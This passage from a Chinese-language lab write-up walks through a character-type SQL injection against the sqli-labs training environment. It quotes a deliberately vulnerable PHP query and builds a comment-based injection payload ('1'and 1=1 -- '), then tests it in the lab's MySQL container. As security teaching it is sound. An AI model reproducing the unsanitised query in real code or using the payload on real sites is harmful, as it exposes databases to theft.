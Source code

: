 ```php
	
	  // connectivity 
	  $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	  $result=mysql_query($sql);
	   $row = mysql_fetch_array($result);
	
	  if($row)
	   {
          // 成功
	  	  echo '<font size="5" color="#FFFF00">';	
	  	  echo 'You are in...........';
	  	  echo "<br>

";
	      echo "</font>";
	    }
		else 
		{
          // 失败，关闭错误回显
  		  echo '<font size="5" color="#FFFF00">';
  		  //echo 'You are in...........';
  		  //print_r(mysql_error());
  		  //echo "You have an error in your SQL syntax";
  		  echo "</br></font>";	
  		  echo '<font color= "#0000ff" font size= 3>';	
		
		}
	}
		else { echo "Please input the ID as parameter with numeric value";}
?>
```

重点就在这句 SQL 语句上：

```sql
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

注意这里有单引号，所以是字符型注入，我们将前面的测试语句代入：

```sql
SELECT * FROM users WHERE id='1'and 1=1' LIMIT 0,1
```

此处单引号未得到闭合，导致了语法错误，这正是前面测试方法失败的原因。我们可以考虑用--注释掉。**在 URL 请求里要注意在后面加 +，+ 在 URL 中相当于空格，加了 + 才能有效注释**。最后我们得到构造语句：

```sql
SELECT * FROM users WHERE id='1'and 1=1 -- ' LIMIT 0,1
```

为了方便验证 SQL 语句，推荐你直接进入 Docker 容器的 MySQL 进行测试：

```shell
$ sudo docker ps
CONTAINER ID        IMAGE                COMMAND             CREATED             STATUS              PORTS                          NAMES
ea6ec615a39e        acgpiano/sqli-labs   "/run.sh"           29 hours ago        Up 29 hours         0.0.0.0:80->80/tcp, 3306/tcp   sqli-labs
$ sudo docker exec -it ea6ec615a39e /bin/bash
$ root@ea6ec615a39e:/# mysql -u root
mysql> use security;
mysql> SELECT * FROM users WHERE id='1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
```
